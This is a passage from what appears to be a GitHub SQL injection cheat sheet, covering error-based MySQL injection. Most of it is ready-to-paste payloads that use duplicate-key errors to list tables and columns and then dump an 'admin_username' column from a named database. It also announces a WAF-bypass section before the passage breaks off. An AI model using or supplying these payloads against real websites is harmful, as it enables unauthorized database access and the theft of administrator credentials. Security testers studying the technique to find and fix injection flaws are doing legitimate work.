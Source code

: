 Error output shows the first table name:

> Duplicate entry '**id**~1' for key ''

Do the same with but change the number in the payload to retrieve different tables: (+LIMIT+**0**,1)  
Change it to: (+LIMIT+**1**,1) then (+LIMIT+**2**,1)... to retrieve different table columns.

**Retrieve columns

Before going further, convert the database name, table name(s) into 0xHEX. This case I will dump columns inside **username** table.

Converting from string to 0xHEX:

```
litoflex -> 0x6c69746f666c6578  
username -> 0x757365726e616d65
```

The given query will dump the first column inside **username** table. _NOTE:_ Please replace the following hex values with your hex values.

`+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(column_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name=0x757365726e616d65+AND+table_schema=0x6c69746f666c6578+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`

To dump the second column of **username** table, replace (+LIMIT+**0**,1) with (+LIMIT+**1**,1)  
To dump the third column of **username** table, replace (+LIMIT+**1**,1) with (+LIMIT+**2**,1) and so on...

The first column is the one I am going to dump. Given query will output the data inside the first column: **admin_username** Before going further, convert the database name, table name and column(s) 0xHEX. This case I will dump data inside **admin_username** column.

Converting from string to 0xHEX:

```
litoflex -> 0x6c69746f666c6578  
username -> 0x757365726e616d65
admin_username -> 0x61646d696e5f757365726e616d65
```

The final payload would be:  
`+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(admin_username)+AS+CHAR),0x7e))+FROM+litoflex.username+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -`

The error will output the data that we aimed at.

## Bypassing Error message: The used SELECT statements have a different number of columns (Second method + WAF Bypass)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md#bypassing-error-message-the-used-select-statements-have-a-different-number-of-columns-second-method--waf-bypass)

The given query will find how many columns the database has:
